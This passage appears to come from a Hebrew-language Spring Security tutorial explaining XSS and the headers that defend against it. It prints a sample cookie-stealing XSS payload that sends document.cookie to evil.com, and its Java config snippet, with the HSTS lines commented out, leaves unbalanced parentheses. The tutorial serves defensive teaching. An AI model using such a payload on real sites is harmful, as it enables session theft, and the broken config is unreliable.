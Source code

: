 בלי הגנה, אם משתמש ירשום username כזה:

</div>

```javascript
// Input זדוני בטופס רישום:
username: "<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>"
```

<div dir="rtl">

כשהאתר יציג את ה-username, הscript יירוץ ויגנוב cookies!

### ההגנה בשלב 6

Spring Security מוסיף headers הגנה:

</div>

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // Security headers to prevent XSS and Clickjacking attacks
            .headers(headers -> headers
                // Prevents content-type sniffing - XSS protection
                .contentTypeOptions(withDefaults())                    
                
                // Prevents iframe embedding from other domains - Clickjacking protection
                .frameOptions(sameOrigin())

//                    // HSTS (HTTP Strict Transport Security) - Forces browser to use HTTPS only
//                    .httpStrictTransportSecurity(hstsConfig -> hstsConfig
//                            .maxAgeInSeconds(31536000)        // Browser remembers for 1 year (365 days * 24 hours * 60 minutes * 60 seconds)
//                            .includeSubdomains(true))         // Apply HSTS to all subdomains (api.yoursite.com, admin.yoursite.com, etc.)
//            );
        
        return http.build();
    }
}
```

<div dir="rtl">

### Headers שנוספים:

</div>

```http
.headers(headers -> headers
    .contentTypeOptions(withDefaults())    // X-Content-Type-Options
    .frameOptions(sameOrigin())           // X-Frame-Options
   // .httpStrictTransportSecurity(...)     // HSTS
    .xssProtection()                      // X-XSS-Protection (אופציונלי))
```
